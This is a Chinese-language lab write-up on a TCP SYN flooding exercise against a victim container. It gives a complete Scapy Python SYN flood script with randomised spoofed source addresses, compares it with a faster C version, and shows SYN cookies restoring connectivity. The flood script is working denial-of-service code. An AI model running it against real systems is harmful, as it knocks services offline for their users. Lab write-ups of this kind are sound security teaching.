






# TCP Flooding

检查容器配置：



## 任务 1.1：使用 Python 发起攻击

根据得到的信息，受害者容器的 23 端口用于 TCP 连接，因此编写 synflood.py 程序如下：

```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))
    pkt[TCP].sport = getrandbits(16)
    pkt[TCP].seq   = getrandbits(32)
    send(pkt, verbose = 0)
```

在主机中运行程序，实现 SYN 泛洪攻击，查看受害者机器的连接情况：



在用户机器中尝试连接，发现等待一段时间后才能连上：



第二次尝试连接，发现能马上连上

***

## 任务 1.2：使用 C 程序发起攻击

编译并运行 C 程序，同样观察受害者机器：



在用户端再次尝试连接，发现一直都连不上：



差别在于使用 Python 程序时运行较慢，用户机器有机会能够抢过程序的泛洪攻击，所以等一段时间后能够成功连接，但是 C 程序运行非常快，用户机器没法抢过程序泛洪攻击，所以一直都无法连接

***

## 任务 1.3：启用 SYN Cookie 机制

启用 SYN Cookie 之后，再次尝试任务 1.2，发现用户能马上连上：

1